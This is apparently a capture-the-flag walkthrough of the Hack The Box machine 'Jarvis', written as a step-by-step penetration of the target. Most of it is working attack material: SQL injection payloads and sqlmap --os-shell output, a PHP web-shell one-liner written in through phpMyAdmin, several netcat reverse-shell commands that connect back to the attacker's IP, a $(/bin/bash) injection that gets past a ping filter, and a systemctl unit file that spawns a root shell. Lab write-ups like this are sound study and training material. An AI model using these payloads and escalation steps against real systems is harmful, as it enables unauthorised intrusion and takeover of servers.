






# Jarvis

## Nmap Enumeration

First starting with nmap enumeration, we run it with flags ```-sC``` and ```-sV``` to get the service version fingerprinting and use the default NSE scanning script.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzv4ZGiO8sDRbIsdZhchg+dZEot3z8++mrp9m0VjP6qxr70SwkE0VGu+GkH7vGapJQLMvjTLjyHojU/AcEm9MWTRWdpIrsUirgawwROic6HmdK2e0bVUZa8fNJIoyY1vPa4uNJRKZ+FNoT8qdl9kvG1NGdBl1+zoFbR9az0sgcNZJ1lZzZNnr7zv/Jghd/ZWjeiiVykomVRfSUCZe5qZ/aV6uVmBQ/mdqpXyxPIl1pG642C5j5K84su8CyoiSf0WJ2Vj8GLiKU3EXQzluQ8QJJPJTjj028yuLjDLrtugoFn43O6+IolMZZvGU9Man5Iy5OEWBay9Tn0UDSdjbSPi1X
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCDW2OapO3Dq1CHlnKtWhDucQdl2yQNJA79qP0TDmZBR967hxE9ESMegRuGfQYq0brLSR8Xi6f3O8XL+3bbWbGQ=
|   256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPuKufVSUgOG304mZjkK8IrZcAGMm76Rfmq2by7C0Nmo
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

From the result, we can see that there is a SSH and web service running on the server. We will try enumeration of the web service as usual as most likely, SSH bruteforcing or exploitation won't be the way to go.

## Web Enumeration

Doing a little gobuster web enumeration, we can find some interesting pages on this web application.

```
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.php (Status: 200)
/js (Status: 301)
/phpmyadmin (Status: 301)
/server-status (Status: 403)
```

This seems like a php hosted web application that uses a MySQL database from the ```/phpmyadmin``` page that we found through the enumeration.

Trying the default ```admin:admin``` user password combination doesn't seem to work here.



Looking at the timestamps of the files in the other pages, it seems that there isn't anything hidden there that could be of use. 
(Only showing a few because all the rest are the same)





Let's go back to the index page and maybe we will find something of use there!

First, we take a look at the page source to see which links will direct us to legitimate pages:

This doesn't seem too promising...



There's something interesting here.



Since we know that this site is written with php, the query parameters could be vulnerable to RFI/LFI attacks. Find out more about such attacks here https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion

Testing the sanity of the parameters yields quite interesting results



It parses the result correctly and returns a null image as ```100.jpg``` is not found on the local server. Remember what we found earlier about this website being linked to a MYSQL database? We can test this vulnerability out with SQLMap and see if we can fish anything of use out!

By using the command ```sqlmap -u http://10.10.10.151/room.php?cod= --os-shell```, sqlmap will test for possible sql injections that could launch us a shell from a folder that we have read/write access to.

## sqlmap shell execution

```
.
.
.
.
Parameter: cod (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cod=1 AND 8977=8977

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: cod=1 AND (SELECT 7706 FROM (SELECT(SLEEP(5)))oYVb)

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: cod=-7768 UNION ALL SELECT NULL,NULL,CONCAT(0x71706b6271,0x5646594f627348794e7343506e4161726c744c4c786c446844656c6b4b50416c4b614954576f7043,0x71717a6271),NULL,NULL,NULL,NULL-- fJzz
---
. 
.
.
.
[00:20:23] [INFO] retrieved web server absolute paths: '/images/'
[00:20:23] [INFO] trying to upload the file stager on '/var/www/' via LIMIT 'LINES TERMINATED BY' method
[00:20:25] [WARNING] unable to upload the file stager on '/var/www/'
[00:20:25] [INFO] trying to upload the file stager on '/var/www/' via UNION method
[00:20:25] [WARNING] expect junk characters inside the file as a leftover from UNION query
[00:20:25] [WARNING] it looks like the file has not been written (usually occurs if the DBMS process user has no write privileges in the destination path)
[00:20:26] [INFO] trying to upload the file stager on '/var/www/html/' via LIMIT 'LINES TERMINATED BY' method
[00:20:28] [INFO] the file stager has been successfully uploaded on '/var/www/html/' - http://10.10.10.143:80/tmpuatkw.php
[00:20:28] [INFO] the backdoor has been successfully uploaded on '/var/www/html/' - http://10.10.10.143:80/tmpbbwjo.php
[00:20:28] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> ls
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output:
---
1234.php
ayax
b4nn3d
connection.php
css
dining-bar.php
fonts
footer.php
getfileayax.php
images
index.php
js
mine.php
nav.php
obfuscated-phpshell.php
phpmyadmin
room.php
roomobj.php
rooms-suites.php
sass
sh3ll.php
tmpbbwjo.php
tmpbwnqm.php
tmpuaapn.php
tmpuatkw.php
---
os-shell> 
```

From the file ```connection.php```, we get the following:
```
<?php
$connection=new mysqli('127.0.0.1','DBadmin','imissyou','hotel');
?>
```

Credential reuse is a very common issue especially in things that the admin 'thinks' others would never get access to. Lets try this on the /phpmyadmin page.

!(myadmin_success)[myadmin_success.JPG]

We managed to get in! Looking up some exploits on MySQL DBs with phpmyadmin, https://www.hackingarticles.in/shell-uploading-web-server-phpmyadmin/, we can perform remote code execution with SQL queries and get the server to return us a shell.

## phpmyadmin exploit

Using ```SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/backdoor.php"```, we are writing to the file ```backdoor.php```into a folder we have access to which we can execute from the web application. What this code does is to get the input from the parameter ```cmd``` and pass it to a system call. We can now return a shell from the host!

Crafting our unique url: ```http://10.10.10.143/backdoor.php?cmd=nc%20-nv%2010.10.15.234%201234%20-e%20/bin/sh ``` and launching a listener on port 1234, we get back a shell.

```
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.10.143.
Ncat: Connection from 10.10.10.143:42096.
ls
ayax
b4nn3d
backdoor.php
connection.php
css
dining-bar.php
fonts
footer.php
getfileayax.php
images
index.php
js
mine2.php
mine3.php
nav.php
phpmyadmin
room.php
roomobj.php
rooms-suites.php
sass
```

#### Tip: Using rlwrap on the listener will allow us to have arrow key functions

Now we can upgrade our shell to a pseudo terminal with ```python -c 'import pty; pty.spawn("/bin/bash")'```

## Input encapsulation exploit

From the ```Admin-Utilities``` folder one directory up, we find an interesting file with different permissions:
```
drwxr-xr-x 2 pepper pepper 4096 Mar  4  2019 .
drwxr-xr-x 4 root   root   4096 Mar  4  2019 ..
-rwxr--r-- 1 pepper pepper 4587 Mar  4  2019 simpler.py
```

```
#!/usr/bin/env python3
.
.
.
def show_statistics():
    path = '/home/pepper/Web/Logs/'
    print('Statistics\n-----------')
    listed_files = listdir(path)
    count = len(listed_files)
    print('Number of Attackers: ' + str(count))
    level_1 = 0
    dat = datetime(1, 1, 1)
    ip_list = []
    reks = []
    ip = ''
    req = ''
    rek = ''
    for i in listed_files:
        f = open(path + i, 'r')
        lines = f.readlines()
        level2, rek = get_max_level(lines)
        fecha, requ = date_to_num(lines)
        ip = i.split('.')[0] + '.' + i.split('.')[1] + '.' + i.split('.')[2] + '.' + i.split('.')[3]
        if fecha > dat:
            dat = fecha
            req = requ
            ip2 = i.split('.')[0] + '.' + i.split('.')[1] + '.' + i.split('.')[2] + '.' + i.split('.')[3]
        if int(level2) > int(level_1):
            level_1 = level2
            ip_list = [ip]
            reks=[rek]
        elif int(level2) == int(level_1):
            ip_list.append(ip)
            reks.append(rek)
        f.close()
	
    print('Most Risky:')
    if len(ip_list) > 1:
        print('More than 1 ip found')
    cont = 0
    for i in ip_list:
        print('    ' + i + ' - Attack Level : ' + level_1 + ' Request: ' + reks[cont])
        cont = cont + 1
	
    print('Most Recent: ' + ip2 + ' --> ' + str(dat) + ' ' + req)
	
def list_ip():
    print('Attackers\n-----------')
    path = '/home/pepper/Web/Logs/'
    listed_files = listdir(path)
    for i in listed_files:
        f = open(path + i,'r')
        lines = f.readlines()
        level,req = get_max_level(lines)
        print(i.split('.')[0] + '.' + i.split('.')[1] + '.' + i.split('.')[2] + '.' + i.split('.')[3] + ' - Attack Level : ' + level)
        f.close()

def date_to_num(lines):
    dat = datetime(1,1,1)
    ip = ''
    req=''
    for i in lines:
        if 'Level' in i:
            fecha=(i.split(' ')[6] + ' ' + i.split(' ')[7]).split('\n')[0]
            regex = '(\d+)-(.*)-(\d+)(.*)'
            logEx=re.match(regex, fecha).groups()
            mes = to_dict(logEx[1])
            fecha = logEx[0] + '-' + mes + '-' + logEx[2] + ' ' + logEx[3]
            fecha = datetime.strptime(fecha, '%Y-%m-%d %H:%M:%S')
            if fecha > dat:
                dat = fecha
                req = i.split(' ')[8] + ' ' + i.split(' ')[9] + ' ' + i.split(' ')[10]
    return dat, req
			
def to_dict(name):
    month_dict = {'Jan':'01','Feb':'02','Mar':'03','Apr':'04', 'May':'05', 'Jun':'06','Jul':'07','Aug':'08','Sep':'09','Oct':'10','Nov':'11','Dec':'12'}
    return month_dict[name]
	
def get_max_level(lines):
    level=0
    for j in lines:
        if 'Level' in j:
            if int(j.split(' ')[4]) > int(level):
                level = j.split(' ')[4]
                req=j.split(' ')[8] + ' ' + j.split(' ')[9] + ' ' + j.split(' ')[10]
    return level, req
	
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
.
.
.
```

Scanning through the code real quickly, we can see that the function ```exec_ping``` does a system call on the user input. We can use this to our advantage following the syntax ```$(/bin/bash)```. 

We land ourselves in a sorta "jail" where we have to do blind command line execution. We can simply launch another nc session back to another listener on our machine and get a session as the user ```pepper``` 

```
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Enter an IP: $(/bin/bash)
ls
nc -nv 10.10.15.234 9001 -e /bin/bash
.
.
.
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.10.143.
Ncat: Connection from 10.10.10.143:57060.
ls
simpler.py
whoami
pepper
```

```
wc -c user.txt
33 user.txt
```

Got user!

## Privilege Escalation

After uploading ```LinEnum.sh``` onto the server, we find something peculiar:

```
[-] SUID files:
-rwsr-xr-x 1 root root 30800 Aug 21  2018 /bin/fusermount
-rwsr-xr-x 1 root root 44304 Mar  7  2018 /bin/mount
-rwsr-xr-x 1 root root 61240 Nov 10  2016 /bin/ping
-rwsr-x--- 1 root pepper 174520 Feb 17  2019 /bin/systemctl
-rwsr-xr-x 1 root root 31720 Mar  7  2018 /bin/umount
-rwsr-xr-x 1 root root 40536 May 17  2017 /bin/su
-rwsr-xr-x 1 root root 40312 May 17  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 59680 May 17  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 75792 May 17  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 40504 May 17  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 140944 Jun  5  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 50040 May 17  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 440728 Mar  1  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 42992 Mar  2  2018 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

The binary systemctl has execute permissions for members in the group ```pepper``` while the binary is a symbolic link that belongs to ```root```. This means, we can execute commands as root while still under the group ```pepper```.

After googling a little, we can write our own .ini file to return a shell when systemctl starts the service.
Writing our own .ini file:
```
[Unit]
Description=root shell
After=network.target
StartLimitIntervalSec=0

[Service]
Type=simple
Restart=always
RestartSec=1
User=root
ExecStart=/home/pepper/rev.sh

[Install]
WantedBy=multi-user.target
```

Save the file as root.service and launch the following commands:
```
systemctl enable /home/pepper/root.service

systemctl start /home/pepper/root.service
```

Of course, you need your reverse shell script in the home directory.

```
#!/bin/sh

nc -nv 10.10.15.234 9003 -e /bin/sh
```

After the service has been executed, we get our root shell!

```
whoami
root
cd /root
ls -al
total 52
drwx------  6 root root 4096 Mar  5  2019 .
drwxr-xr-x 23 root root 4096 Mar  3  2019 ..
lrwxrwxrwx  1 root root    9 Mar  4  2019 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  4 root root 4096 Mar  3  2019 .cache
-rwxr--r--  1 root root   42 Mar  4  2019 clean.sh
drwxr-xr-x  3 root root 4096 Mar  3  2019 .config
drwxr-xr-x  3 root root 4096 Mar  3  2019 .local
lrwxrwxrwx  1 root root    9 Mar  4  2019 .mysql_history -> /dev/null
drwxr-xr-x  2 root root 4096 Mar  2  2019 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
lrwxrwxrwx  1 root root    9 Mar  4  2019 .python_history -> /dev/null
-r--------  1 root root   33 Mar  5  2019 root.txt
-rw-r--r--  1 root root   66 Mar  4  2019 .selected_editor
-rwxr-xr-x  1 root root 5271 Mar  5  2019 sqli_defender.py
wc -c root.txt
33 root.txt
```

This has been quite a learning experience from escaping chroot jails to escalating privileges through SUID. Hope you learned something from this walkthrough too!
